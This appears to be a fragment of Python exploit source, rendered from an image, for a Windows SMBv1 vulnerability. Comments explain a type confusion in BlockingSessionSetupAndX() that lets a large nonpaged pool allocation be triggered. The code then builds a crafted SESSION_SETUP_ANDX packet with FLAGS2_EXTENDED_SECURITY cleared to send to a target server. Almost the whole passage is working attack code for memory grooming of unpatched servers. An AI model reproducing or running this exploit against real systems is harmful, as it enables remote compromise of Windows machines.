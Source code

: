 ```
	# The big nonpaged pool allocation is in BlockingSessionSetupAndX() function for storing NativeOS and NativeLanMan.
	# The NativeOS and NativeLanMan size is caculated from "ByteCount - other_data_size"
	
	# Normally a server validate WordCount and ByteCount field in SrvValidateSmb() function. They must not be larger than received data. 
	# For "NT LM 0.12" dialect, There are 2 possible packet format for SMB_COM_SESSION_SETUP_ANDX command.
	# - https://msdn.microsoft.com/en-us/library/ee441849.aspx for LM and NTLM authentication
	#   - GetNtSecurityParameters() function is resposible for extracting data from this packet format
	# - https://msdn.microsoft.com/en-us/library/cc246328.aspx for NTLMv2 (NTLM SSP) authentication
	#   - GetExtendSecurityParameters() function is resposible for extracting data from this packet format
	
	# These 2 formats have different WordCount (first one is 13 and later is 12). 
	# Here is logic in BlockingSessionSetupAndX() related to this bug
	# - check WordCount for both formats (the CAP_EXTENDED_SECURITY must be set for extended security format)
	# - if FLAGS2_EXTENDED_SECURITY and CAP_EXTENDED_SECURITY are set, process a message as Extend Security request
	# - else, process a message as NT Security request
	
	# So we can send one format but server processes it as another format by controlling FLAGS2_EXTENDED_SECURITY and CAP_EXTENDED_SECURITY.
	# With this confusion, server read a ByteCount from wrong offset to calculating "NativeOS and NativeLanMan size".
	# But GetExtendSecurityParameters() checks ByteCount value again.
	
	# So the only possible request to use the bug is sending Extended Security request but does not set FLAGS2_EXTENDED_SECURITY.
	
	conn = smb.SMB(target, target)
	_, flags2 = conn.get_flags()
	# FLAGS2_EXTENDED_SECURITY MUST not be set
	flags2 &= ~smb.SMB.FLAGS2_EXTENDED_SECURITY
	# if not use unicode, buffer size on target machine is doubled because converting ascii to utf16
	if size >= 0xffff:
		flags2 &= ~smb.SMB.FLAGS2_UNICODE
		reqSize = size // 2
	else:
		flags2 |= smb.SMB.FLAGS2_UNICODE
		reqSize = size
	conn.set_flags(flags2=flags2)
	
	pkt = smb.NewSMBPacket()

	sessionSetup = smb.SMBCommand(smb.SMB.SMB_COM_SESSION_SETUP_ANDX)
	sessionSetup['Parameters'] = smb.SMBSessionSetupAndX_Extended_Parameters()

	sessionSetup['Parameters']['MaxBufferSize']      = 61440  # can be any value greater than response size
	sessionSetup['Parameters']['MaxMpxCount']        = 2  # can by any value
	sessionSetup['Parameters']['VcNumber']           = 2  # any non-zero
	sessionSetup['Parameters']['SessionKey']         = 0
	sessionSetup['Parameters']['SecurityBlobLength'] = 0  # this is OEMPasswordLen field in another format. 0 for NULL session
	# UnicodePasswordLen field is in Reserved for extended security format. 0 for NULL session
	sessionSetup['Parameters']['Capabilities']       = smb.SMB.CAP_EXTENDED_SECURITY  # can add other flags

	sessionSetup['Data'] = pack('<H', reqSize) + '\x00'*20
```